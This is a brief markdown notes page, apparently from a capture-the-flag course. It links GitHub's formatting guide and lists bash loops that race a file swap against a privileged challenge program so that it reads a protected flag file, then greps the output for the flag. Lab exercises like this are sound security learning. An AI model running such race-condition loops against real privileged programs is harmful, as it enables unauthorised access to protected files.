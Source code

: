 ## Github markdown and formatting syntax.
`https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax`

## Bash scripts for Race COnditions
Important to setup the target file first in userspace so that it can be edited by the user even though the target script executes as admin

 `while /bin/true; do cp -v /home/hacker/catflag /home/hacker/in; done`
 
 `while /bin/true; do /challenge/classwork /home/hacker/in >> /home/hacker/output.txt; done`

 Grep to search for flag in output
 
 `cat /home/hacker/output.txt | grep "pwn"`
